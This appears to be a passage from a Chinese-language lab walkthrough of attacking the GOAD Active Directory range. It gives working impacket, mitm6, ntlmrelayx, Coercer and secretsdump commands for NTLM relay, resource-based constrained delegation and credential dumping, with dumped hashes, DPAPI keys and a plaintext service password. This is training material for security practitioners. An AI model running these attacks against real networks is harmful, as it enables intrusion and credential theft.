INFO Loaded 1 targets
INFO [192.168.56.22] [+] CASTELBLACK (domain:north.sevenkingdoms.local) (Windows 10.0 Build 17763) [SMB Signing Disabled]
INFO host: \\192.168.56.11, user: robb.stark, active:     8, idle:     8
INFO Adding connected user robb.stark from \\192.168.56.11
INFO host: \\192.168.56.106, user: eddard.stark, active:     0, idle:     0
INFO Adding connected user eddard.stark from \\192.168.56.106
INFO [192.168.56.22] [+] Found user .NET v2.0
INFO [192.168.56.22] [+] Found user .NET v2.0 Classic
INFO [192.168.56.22] [+] Found user .NET v4.5
INFO [192.168.56.22] [+] Found user .NET v4.5 Classic
INFO [192.168.56.22] [+] Found user All Users
INFO [192.168.56.22] [+] Found user Classic .NET AppPool
INFO [192.168.56.22] [+] Found user Default
INFO [192.168.56.22] [+] Found user Default User
INFO [192.168.56.22] [+] Found user Public
INFO [192.168.56.22] [+] Found user robb.stark
INFO [192.168.56.22] [+] Found user sql_svc
INFO [192.168.56.22] [+] Found user vagrant
INFO [192.168.56.22]  [+] Dumping LSA Secrets
INFO [192.168.56.22] [+]  LSA :  winlogon#vagrant : vagrant 
INFO [192.168.56.22] [-] Found DPAPI Machine key : 0x7fedf97b3cdc585d14d9019ad197d4c31f8b655d
INFO [192.168.56.22] [-] Found DPAPI User key : 0xb30dc15bba504b3f1c6881b50bb485dd9308757c
INFO [192.168.56.22] [-] Found DPAPI Machine key : 0x53759d319f4a23f1765fdb5cd983eaeb232182dd
INFO [192.168.56.22] [-] Found DPAPI User key : 0x243f9f0a11073c08fb5150520c50265bf6c64b7b
INFO [192.168.56.22] [+]  LSA :  NL$KM_history : 39fb46d843b6ece6ded7ce1c502daeb44f71e125bf5efb148614d6a30f93de420648f435b145837e1a9829d6451914d2c46657032bc50401ae3349cdd2e092ce 
INFO [192.168.56.22] [+]  LSA :  _SC_MSSQL$SQLEXPRESS#north.sevenkingdoms.local\sql_svc : YouWillNotKerboroast1ngMeeeeee 
INFO [192.168.56.22]  [+] Dumping SAM Secrets
INFO [192.168.56.22] [+]  SAM : Collected 6 hashes 
INFO [192.168.56.22] [+] Gathering DPAPI Secret blobs on the target
INFO [192.168.56.22] [+]  
[CREDENTIAL]
LastWritten : 2023-08-10 16:31:41
Flags       : 48 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x2 (CRED_PERSIST_LOCAL_MACHINE)
Type        : 0x1 (CRED_PERSIST_SESSION)
Target      : WindowsLive:target=virtualapp/didlogical
Description : PersistedCredential
Unknown     : 
Username    : 02vsfjqjagxxlpgr
Unknown3     : 
 
INFO [192.168.56.22] [+] Gathering Wifi Keys
INFO [192.168.56.22] [+] Gathering Vaults
INFO [192.168.56.22] [+] Gathering Certificates Secrets 
Traceback (most recent call last):
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/donpapi/lib/certificates.py", line 402, in loot_privatekeys
    masterkey_guid = self.get_masterkey_guid_for_privatekey(data)
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/donpapi/lib/certificates.py", line 515, in get_masterkey_guid_for_privatekey
    blob=PVKFile(privatekey_bytes)
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/impacket/structure.py", line 87, in __init__
    self.fromString(data)
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/impacket/structure.py", line 152, in fromString
    self[field[0]] = self.unpack(field[1], data[:size], dataClassOrCode = dataClassOrCode, field = field[0])
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/impacket/structure.py", line 382, in unpack
    return dataClassOrCode(data)
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/impacket/structure.py", line 87, in __init__
    self.fromString(data)
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/impacket/structure.py", line 152, in fromString
    self[field[0]] = self.unpack(field[1], data[:size], dataClassOrCode = dataClassOrCode, field = field[0])
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/impacket/structure.py", line 326, in unpack
    return self.unpack(two[0],data)
  File "/root/.local/pipx/venvs/donpapi/lib/python3.9/site-packages/impacket/structure.py", line 385, in unpack
    return unpack(format, data)[0]
struct.error: ('unpack requires a buffer of 4 bytes', "When unpacking field 'CryptAlgo | <L=0 | b''[:4]'", 'When unpacking field \'Blob | : | b\'\\x01\\x00\\x00\\x00\\x9a\\xe4\\x0f#\\x85q\\xceI\\xbdG/\\xd2\\x19\\x97#8\\x00\\x00\\x00\\x00,\\x00\\x00\\x00C\\x00r\\x00y\\x00p\\x00t\\x00o\\x00A\\x00P\\x00I\\x00 \\x00P\\x00r\\x00i\\x00v\\x00a\\x00t\\x00e\\x00 \\x00K\\x00e\\x00y\\x00\\x00\\x00\\x03f\\x00\\x00\\xc0\\x00\\x00\\x00\\x10\\x00\\x00\\x00\\xe5\\xb2\\x18%\\x84\\xc7v\\xbc\\x0f2\\x98I\\xef\\x84\\x1b\\xfa\\x00\\x00\\x00\\x00\\x04\\x80\\x00\\x00\\xa0\\x00\\x00\\x00\\x10\\x00\\x00\\x00\\xda\\t\\xef\\xa0\\x87\\x0cA\\xd7\\xd4\\xaaT^\\x0c \\x8c\\x9f@\\x05\\x00\\x00\\xeeOw\\xec\\x8d)\\xcen\\xf2N-\\xff\\x8e\\x8e\\\'\\xfd9y\\xa4\\xe4\\x98\\xa9Q\\xce\\xee\\xb7\\xe5l`jA^5\\xa6\\x1a\\x08\\xd8\\x06D@\\x15\\x07rs\\xd8\\xe6\\\\\\xa9im\\xc4\\xe5\\xbfx\\xbdf\\xba\\xd1\\x8d\\x05\\xaf\\xd2]xN\\xddU10\\xb2l\\xbf\\xcc;\\xd7\\x1e\\xdb\\x01/\\xb06\\xa2\\xb2\\xb8\\xed\\xff)^\\x90\\xce\\xf2\\xe6\\xefU\\xac\\x07\\xae_X\\xae\\xe4h\\xaf \\xc0\\x165Q%a\\xa6\\x0b\\xde\\xaa\\x96\\xeaTC~\\x89\\xa0=\\xf5\\xb3<\\xaf\\xd3\\xed\\x02\\xb2\\xf3i\\x97N\\xbdU\\x9b\\xc9\\xde\\xc6\\x97\\n\\xe2\\x88`\\x11l\\xc4?\\xf8Y\\x1f\\x92\\x83V\\rF\\xd5\\xb2U\\x17\\xf4*|\\xbf\\x99?\\xebc\\xb2\\xf6WU\\xf2<\\xcfk\\x89\\xbe\\x07\\x88\\xfe\\x95:]s#*\\xf1u\\xfaE\\xde\\x18\\xbd\\xf2\\xd9\\x0b\\xd2\\x86 >\\xc6v\\xf7u\\xc7N,\\xb0\\x8dkw&\\x1e\\xcd\\xedD*\\x97\\x84\\xe0\\xdc\\x9fq\\xc8\\xa4U\\xeff\\xae\\xe1\\xac\\t\\x07\\x04\\xfb\\x0e\\x95\\xa4\\xb5\\x01\\x03\\xdb\\x0e\\t\\xef\\xdf\\xee7\\xf8\\x9d\\xda\\x07zD\\xd5\\x80L\\xc8\\xc5+\\xf2\\xe1\\x05\\x8d\\xa8\\xb9\\xc9\\xf2\\xe5t\\xd6\\xd1-\\xdb\\x106\\x92\\x18T\\xcf\\xd79\\xa8\\xfbAG\\x9d\\xd2\\xbe\\x13i\\xa8\\xc8\\xcaG>\\x05\\xf8"\\xa8Y\\xd7\\x03\\x83\\x9d\\xef\\xf7\\xde\\x14nu\\xd5*\\xf9;A\\x026;\\\\n\\xab\\xbf\\xcd)\\xd0m\\xfd\\xdd\\xff\\x1a\\xc38\\xd3\\x98\\x1b\\x83\\xb5\\xf5\\xa7\\xd5\\x8fbS\\xe6\\x13\\xbbt\\xb3\\xc8\\xda\\xa8%\\xa8\\x94\\xf3\\xde\\xc3\\x02ip\\x85^\\x1d\\xd0\\x7f\\xf1]\\xb84\\xb6\\x80\\x9e\\xd0),\\xc0[\\x1b*\\xd8<\\xb23\\x87?b\\xe4\\x82lI\\xe6W \\xaer\\xd2\\xe42wn\\x1d\\xa7{>M\\xba\\xc2\\\\[\\xa3\\rt\\xf9\\xc9\\xc5]\\x93U0\\x8d,\\x1c\\xe7\\xd7\\x8b\\xc5x\\x97h\\xa9C\\xf5o\\xa5\\xc9\\x1dEvw\\xaa\\xf4\\x81\\xb2\\x1b\\xd6\\xb9\\xba,\\xfe\\xd6]d\\xd6\\xc3{J\\xa4\\x0b\\xa750\\xb7:\\xc7\\xd0\\x9a\\xd1\\xae\\xf6\\xa9&\\xcd\\x16\\xaf\\xfb\\xfd\\xec\\xcen1l\\xcav)\\x08\\xd1\\xbf0\\x94\\xf1\\xfen\\xdb\\x8a\\xbeahvX\\x9f\\x85T\\xfc\\x9e\\xa3p(\\x1b\\xb3\\x82!*\\xd0h%\\xc2\\x90\\xe9?\\x0cA\\xc8\\x19\\xed9Im0+\\x83\\xad\\x0b\\x0eq\\xa9/\\xe0c\\x94\\x91\\xda \\xde\\x99zr\\x95X\\xa4\\x91v\\xc2\\xc6Sx\\xa0R\\x98\\x8a\\x85\\x98N\\\'\\x0f\\n\\xc1\\x0e\\\'\\x93X\\x93\\xba\\x01\\x19/c\\x11A\\x9abvZ\\xa8\\x87\\xad\\xe9XMW\\xb4d(@F\\x0c\\xc2\\xb6\\x8c\\xa6Y\\xefu\\xaf\\xa3\\xe9#\\x04\\xbf\\x87J\\\\\\xd3X\\x05,\\x8b\\x98\\xb6\\x028u\\xb3vx\\x01\\\\\\x7f\\xa8\\x89\\x0f\\x12\\x92\\xa1`\\xa6v#=\\x88\\xeb\\xa2\\xd5`\\x0c\\x1en\\xfc\\x03\\xf1%\\xf81Y\\xdf.I\\x1d\\xb3L\\xbb\\xc1ne\\x9e2\\x9a\\xd3\\xd8(\\xbb\\x8b\\x90\\xc7Df\\xf0y\\xf6\\x1b\\x1f\\x1c0oD\\xbd\\xe0\\xc5\\xe3\\xf4A\\xe8z\\x80fx\\xc5\\xdb\\xbdK#w\\xe2\\x9b\\xafsK`m\\x1di\\x04\\xa5\\x03\\xd0\\xe4\\xb5\\xea\\xe9i\\xfc\\x96\\xd5\\\\\\xcb;\\x92\\xa7\\xa2\\xf5\\xb3\\x99\\xd3\\xba\\xb3\\x1a\\xca\\x8c\\xaf\\x1eu.\\xc4\\x07^ y`\\x07$\\x95Tn\\x90n\\xcbd\\xd2\\x07\\xf8]\\xe6\\nLB\\x16\\xff\\x9e\\xc4\\xc2\\x9b\\xc8\\x90\\xa2\\x9f&\\xd5\\\'\\xe0n)\\xfc\\x7fo\\nQ\\xf2U\\x8b1\\xd1[\\xdf:\\xd1\\xda|\\xd0\\xc9]\\x17\\x82\\x90\\x8c{6\\xdf\\x1b\\x05\\x12=bN\\xe9gP\\x06G\\x12#\\xa5\\x00\\x03\\xbf\\x1d\\xa4\\xed^\\x15\\xdf\\xac\\xd9#\\x868\\xc3\\xc7\\x8ar\\xa9U\\xb2\\xeb\\x92\\xe0\\xd0\\xd8W\\xd1\\xc4\\xc7\\xe93a\\xba\\x8a\\x07\\xeb%\\xca\\xbf~\\xe28\\xf6\\xba\\xfe\\xfaI\\x18:4H\\x8c\\x1a\\xdaV6\\xdf\\xd8\\xa7\\x0b\\x86\\xe6\\x0f\\xca;n_\\\'n\\xcd.c%eW\\xa2SU\\xe2\\x19$NO\\x9f\\x0bc\\x95^T\\x8eKR\\x041\\x0f]c ;v\\xc2\\xc0\\xf3\\xc1v\\x90p\\xd1\\x8f\\xe8\\x88\\xdc\\xfd\\xde+*\\xc7\\xa5\\x8e\\xaf\\x86\\x98Z\\xdcT$\\xc6\\x97R\\xa4\\x9f\\xf9\\xa24l\\x1b\\x02B\\xc9\\x8cM\\x12\\x16\\x99\\x1c\\xb0\\x98\\x95\\xe3ZI\\xcc\\xc4\\x8e\\xb4\\xbe\\x11\\xe7\\x16og\\xd39\\xc3G\\xea\\x99\\xef\\x89\\x01l>8\\xde\\xa0\\x9d(\\xa3H\\xfd\\xc9\\x02\\x90\\xa8d\\\\\\x8e[\\xb8J/=\\xf1\\x94k\\x8e\\xfa\\xaf+\\xebw]\\x9a\\xd30\\x98~\\xaa\\xf0\\xcf\\x86,\\xcb\\\\\\t\\xaa\\xc5\\xb4\\xa4m\\xeb{\\t(\\x8c\\xbe0\\xaexo\\x8ej\\xde\\xf7\\x18\\x98\\x1a\\xb2\\x1a\\xa2\\xc8S{=h\\x10e\\xb7S\\x10\\xcemd\\xb9\\x01^\\xada\\xd5G\\xadh\\xcf\\xb0U\\x95S[\\x97\\xf5\\xd2@\\x89\\x1b\\xb7\\x1fO\\xf2U\\x9c\\r\\xceK\\xaf\\x83\\xeb\\xdal6t\\xe4\\x93\\x93I}k\\x06\\x90\\xafz\\xea\\x1d\\xa2]\\xef;\\x8a\\xc5;\\x9f\\x7f\\x19\\x02\\x1a\\xaa|\\x7fj]\\x1d\\x8b(\\t\\xcd7\\\'\\x0e\\xad\\x10\\xfa&\\xc4\\xba\\x87X#]?\\xc2\\x93{\\x8f_\\xcaj\\xf5\\x9b\\x04roZ\\x9a\\x93\\x9a\\xe7MW\\x81_\\xd3lxc[$3\\x065z-\\x91\\xf5\\xcc\\xfd{+\\xde\\xc5\\xf7\\xec\\x19\\x10\\xe4\\xc0\\xc7\\xfc\\x12J\\xdf\\xc4 \\xff\\x94u\\x1f]\\x91\\xaf\\xaf\\x0f7\\xf4\\x1c\\x9fm\\x90\\x1b\\xa2\\x99\\x87\\x10C\\xe8g\\x87\\xe6x\\xdb\\xd5\\xb2SFX\\xa5d+\\x85\\x9d\\x1fc\\x7f\\x9c4>\\xaf\\xea3}\\x9c\\xc8d:\\xb0Ji35 17\\x01\\xba\\x89\\xdeu_u*B\\xa4\\x03\\x08(\\xff\\xce\\xe9\\x02\\xbb\\x17\\xa5jxA)G\\xf2\\xce\\x16\\x01#\\x11et\\x7f\\x81\\xfc\\xbd3.3\\xfe\\xcel\\xb6\\x19\\x90\\xda\\x81\\x11\\xae\\x1c\\xeb\\xc5\\xa1\\xfc\\xc8i\\x17\\xccI\\xf3\\x0c<k\\xd5\\n\\xed\\xcfI\\xf8\\x14\\x00\\x00\\x00\\xb2\\xfb\\xa9\\x93\\r\\xa3:\\x1eG\\xfd$\\xc3hp\\x83\\x12,\\x14\\x0b\\xfd\\x01\\x00\\x00\\x00\\xd0\\x8c\\x9d\\xdf\\x01\\x15\\xd1\\x11\\x8cz\\x00\\xc0O\\xc2\\x97\\xeb\\x01\\x00\\x00\\x00\\x9a\\xe4\\x0f#\\x85q\\xceI\\xbdG/\\xd2\\x19\\x97#8\\x00\\x00\\x00\\x00\\x18\\x00\\x00\\x00E\\x00x\\x00p\\x00o\\x00r\\x00t\\x00 \\x00F\\x00l\\x00a\\x00g\\x00\\x00\\x00\\x03f\\x00\\x00\\xc0\\x00\\x00\\x00\\x10\\x00\\x00\\x00a4b.\\xce\\xef&\\x00&\\xe7\\xdc\\xa28\\xfd\\x1bL\\x00\\x00\\x00\\x00\\x04\\x80\\x00\\x00\\xa0\\x00\\x00\\x00\\x10\\x00\\x00\\x00\\xd5>%\\x08\\x85\\x97e \\xf0\\xe1\\n\\xa8\\x9b*\\xea\\xd8\\x08\\x00\\x00\\x00\\xa8\\xb4+G\\x03\\x04\\xee\\xa3\\x14\\x00\\x00\\x00#\\xba\\xdd\\xee\\n\\x15\\xf664\\\\dX\\x8aW\\xabk\\x9a\\x8f\\xad\\xad\'[:1524]\'')

```

### Smbclient

使用 smbclient 直接连接到 smbserver

```bash
proxychains impacket-smbclient -no-pass 'NORTH'/'EDDARD.STARK'@'192.168.56.22' -debug
```

```bash
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.56.22:445  ...  OK
Type help for list of commands
# shares
ADMIN$
all
C$
IPC$
public
# use C$
# ls
drw-rw-rw-          0  Tue Jul  4 20:18:24 2023 $Recycle.Bin
drw-rw-rw-          0  Thu Jul  6 04:57:39 2023 Config.Msi
-rw-rw-rw-       1220  Wed Jul  5 23:24:10 2023 dns_log.txt
drw-rw-rw-          0  Fri Jul 17 10:28:38 2020 Documents and Settings
drw-rw-rw-          0  Thu Jul  6 04:48:54 2023 inetpub
-rw-rw-rw-  738197504  Thu Aug  3 04:14:31 2023 pagefile.sys
drw-rw-rw-          0  Wed Jul  5 18:50:24 2023 PerfLogs
drw-rw-rw-          0  Thu Jul  6 04:56:49 2023 Program Files
drw-rw-rw-          0  Thu Jul  6 04:56:08 2023 Program Files (x86)
drw-rw-rw-          0  Thu Jul  6 06:31:42 2023 ProgramData
drw-rw-rw-          0  Tue Jul  4 20:18:03 2023 Recovery
drw-rw-rw-          0  Thu Jul  6 04:51:23 2023 setup
drw-rw-rw-          0  Thu Jul  6 05:00:47 2023 shares
drw-rw-rw-          0  Fri Jul 17 10:27:55 2020 System Volume Information
drw-rw-rw-          0  Wed Jul  5 23:11:00 2023 tmp
drw-rw-rw-          0  Tue Aug  1 02:49:18 2023 Users
drw-rw-rw-          0  Wed Aug  2 05:24:26 2023 Windows
```

代码执行使用 smbexec 或 atexec

```bash
proxychains impacket-smbexec -no-pass 'NORTH'/'EDDARD.STARK'@'192.168.56.22' -debug
```

```bash
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[+] StringBinding ncacn_np:192.168.56.22[\pipe\svcctl]
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.56.22:445  ...  OK
[+] Executing %COMSPEC% /Q /c echo cd  ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami /all
[+] Executing %COMSPEC% /Q /c echo whoami /all ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryToken

Privilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

C:\Windows\system32>
```

>对于socks连接，只能使用smbexec 或atexec，wmiexec、psexec 和 dcomexec 都不起作用（此处说明： <https://github.com/SecureAuthCorp/impacket/issues/412）>

## Mitm6 + ntlmrelayx to ldap

>由于MS16-077导致LLMNR/NBNS投毒指定WPAD文件方法失效，所以另一种有用方法是响应 DHCPv6 请求并将我们的主机设置为默认 DNS 服务器进行WPAD欺骗
>
>Windows 优先使用 IPv6 而不是 IPv4，因此我们可以捕获并毒害对 DHCPv6 查询的响应，使用**MITM6**更改 DNS 服务器并将查询重定向到我们的计算机
>
>在实际的IPv6网络中，客户端的IPv6是由主机本身分配的，不需要DHCP服务器
>
> NTLM 认证消息嵌入在 SMB、HTTP、MSSQL、SMTP 和 IMAP 等应用协议的数据包中，LM 和 NTLM 认证协议是"独立于应用协议的"
>
> 这意味着可以将某个协议（例如 HTTP）中继 LM 或 NTLM 认证消息 到 另一个协议（例如 SMB），这称为跨协议 LM/NTLM 中继，但也预示着跨协议中继攻击受到应用程序协议的制约
> 下表总结了跨协议中继攻击的预期行为，具体取决于已经实施的缓解措施，表中列出的所有测试和结果均使用 Impacket 的 ntlmrelayx（Python）完成


* 启动mitm6来毒化 DHCPv6 并从主机获取 DNS 请求
* 顺便说一句，我注意到我们可以毒化域控制器，但 DC 并不受影响，仍然使用他们的本地 DNS 服务器
* 所以只能毒化 MSSQL 服务器
* 接下来将毒化 braavos 服务器将 wpad 查询并将 http 查询中继到 meereen 上的 ldaps，以添加具有委派权限的计算机

* 使用mitm6开始中毒并启动ntlmrelayx

```bash
sudo /root/.local/bin/mitm6 -i eth1 -d essos.local -d sevenkingdoms.local -d north.sevenkingdoms.local --debug
```

```bash
sudo impacket-ntlmrelayx -6 -wh wpadfakeserver.essos.local -t ldaps://meereen.essos.local --add-computer fake01 --delegate-access
```

* -6 : 在 IPv4 和 IPv6 网络上监听并执行操作
* -wh : ntlmrelayx 返回托管 WPAD 文件的服务器，由于不需要 WPAD 文件中的任何内容（mitm6 回答了所有问题），必须选择网络中不存在的主机
* -t : 将凭据中继到指定的服务器，如果没有"-t"，凭据将转发回客户端
* --add-computer : 尝试添加新的计算机帐户
* --delegate-access : 将中继计算机帐户的访问权限委派给指定帐户(启动委派攻击)

现在DNS已经中毒了


等待 wpad http 查询将请求转发到 ldaps（根据上表结果 http 能够中继到 ldaps，可以重新启动虚拟机以中毒和利用，无需等待）


可以看到机器账户ESSOS/BRAAVOS$的http请求转发到ldaps，BRAAVOS$作为机器账户自然具备创建机器账户和修改msDS-AllowedToActOnBehalfOfOtherIdentity属性权限（域用户具有创建10个机器账户权限），所以成功创建新的计算机帐户并授予其对受害计算机的委派权限

```bash
[*] Attempting to create computer in: CN=Computers,DC=essos,DC=local
[*] Adding new computer with username: fake01$ and password: x}W9.sOPB7$o4IY result: OK
[*] Delegation rights modified succesfully!
[*] fake01$ can now impersonate users on BRAAVOS$ via S4U2Proxy
[*] Delegation rights modified succesfully!
[*] fake01$ can now impersonate users on BRAAVOS$ via S4U2Proxy
```

接下来就进行**基于资源的约束委派攻击**，使用 getST 调用  S4U2Self 和 S4U2Proxy，完成对服务器Braavos$攻击

```bash
impacket-getST -spn cifs/braavos.essos.local essos.local/fake01\$ -impersonate Administrator
```

```bash
export KRB5CCNAME=Administrator.ccache
impacket-secretsdump -k -no-pass braavos.essos.local
```

```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x9bb24fb9e9684ce8333026b4e7a67a4c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:492c19fde6db57a251bf44c2b756ec3b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[*] Dumping cached domain logon information (domain/username:hash)
ESSOS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
ESSOS\BRAAVOS$:plain_password_hex:e478dc687076d76840a1e0dd1359e01270e998be36408a64063c4fb37c1bfc84b2e0daf4ae9655fa925c79d5bba72bc44e222de0f4a27cb60419ec81786895538eae378e3526380ba4d5e0e2cd2e1079d6ea6fe62110946a516f021ac12e0c39f0150cc74c6e0a9107d8ea4e20d371d8e6691fdb9d045ad68ebf4ce16e2dee4037cf5b24f912f06e6666339ab690848c07520daded4396e51e6d94da2f400049ddd96ca69594b3f772bea07a17e3d2e0a1ef1f10b3dda7be2ff00c57c6e58ff8020dac7b08828ad2d00735199bbef7a2e816acba3177ae191e8306b8c895fed66ef69419627f35b7f4503a6a498ee8d3
ESSOS\BRAAVOS$:aad3b435b51404eeaad3b435b51404ee:6cddb97c1fe7a8230d654413f2799e0b:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x15a98c9d9a40dbd9f71472cc20e6ed21046177d8
dpapi_userkey:0x1935d54fb2e3d629e6dbf76dbc988c08a31529a2
[*] NL$KM 
 0000   26 72 00 BB 64 CB DD D7  34 20 B4 AC 7E 9A 99 05   &r..d...4 ..~...
 0010   75 95 40 EF C7 ED 72 3E  F4 66 93 E7 3D C9 B8 56   u.@...r>.f..=..V
 0020   EC E8 6E 4E 40 13 86 34  A8 F6 E6 36 C6 71 9F 7A   ..nN@..4...6.q.z
 0030   8F 63 A3 23 D9 37 A0 BC  07 C0 0B 06 41 21 5E 64   .c.#.7......A!^d
NL$KM:267200bb64cbddd73420b4ac7e9a9905759540efc7ed723ef46693e73dc9b856ece86e4e40138634a8f6e636c6719f7a8f63a323d937a0bc07c00b0641215e64
[*] _SC_MSSQL$SQLEXPRESS 
essos.local\sql_svc:YouWillNotKerboroast1ngMeeeeee
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

我们也可以指定一个战利品目录，转存ldap上的所有信息

```bash
impacket-ntlmrelayx -6 -wh wpadfakeserver.essos.local -t ldaps://meereen.essos.local -l loot
```

参考链接：

<https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/>
<https://chryzsh.github.io/relaying-delegation/>
<https://tttang.com/archive/1617/>

## Coerced auth smb + ntlmrelayx to ldaps with drop the mic

可以使用多种方法（petitpotam、printerbug、DFSCoerce）强制 meereen DC 连接到服务器上
要执行强制操作而不是从多种方式上选择，可以使用一体化工具[coercer](https://github.com/p0dalirius/Coercer)

根据[hackndo博客](https://en.hackndo.com/ntlm-relay/)和[thehacker](https://www.thehacker.recipes/ad/movement/ntlm/relay)可以知道SMBv2无法跨协议中继到ldpa(s)上（除非有CVE-2019-1040漏洞）

启动ntlmrelayx，移除mic，跨协议中继到ldpas，创建新的计算机帐户并授予其对受害计算机的委派权限

```bash
impacket-ntlmrelayx -t ldaps://meereen.essos.local -smb2support --remove-mic --add-computer fake03 --delegate-access
```

在Server braavos 上运行强制身份验证（Server braavos 是最新的 Windows Server 2016，因此未经身份验证的 petitpotam 在这里不起作用）

靶场设计者提供以下命令，域用户khal.drogo之前从未获取密码，笔者推测之所以如此，是因为设计者想展示如何在域环境中从域用户提升到域中机器的管理员权限（攻击方法和前面一样NTLM中继和RBCD攻击二者完美结合）

```bash
Coercer coerce -u khal.drogo -d essos.local -p horse -t braavos.essos.local -l 192.168.56.1
```

虽然ntlmrelayx有报错，但是Coercer尝试到EfsRpcOpenFileRaw方法时可以看到fake03计算机创建成功


之后便依照之前攻击RBCD（资源的约束委派）方式，提升到braavos机器的管理员权限

```bash
impacket-getST -spn HOST/BRAAVOS.ESSOS.LOCAL -impersonate Administrator -dc-ip 192.168.56.12 'ESSOS.LOCAL/fake03$:7>nbN{V(V_,M/rv'
```

```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]  Requesting S4U2self
[*]  Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

```bash
export KRB5CCNAME=Administrator.ccache
```

```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x9bb24fb9e9684ce8333026b4e7a67a4c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:492c19fde6db57a251bf44c2b756ec3b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
